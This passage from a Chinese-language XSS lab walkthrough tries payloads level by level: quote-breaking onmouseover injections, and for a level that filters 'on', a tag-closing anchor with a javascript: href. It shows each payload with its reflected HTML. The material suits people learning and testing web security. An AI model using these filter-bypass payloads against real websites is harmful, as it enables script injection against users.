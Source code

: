 

<>闭合标签给过滤了



试试payload3的样子

```
xx' onmouseover='alert(1)
```



结果变成

```
<input name=keyword  value="xx' onmouseover='alert(1)">
```



所以尝试改单引号变为双引号



```
xx" onmouseover="alert(1)
```

通关



### 5.

尝试payload4

```
xx" onmouseover="alert(1)
```

查看源代码，可以发现



```
<input name=keyword  value="xx" o_nmouseover="alert(1)">
```

on被过滤为o_n了

说明这个方法给ban了



姿态二

```
"> <a href="javascript:alert(1)">1</a>
```

可以预想到">进行标签闭合

加上一个超链接标签

然后直接点击超链接进行跳转

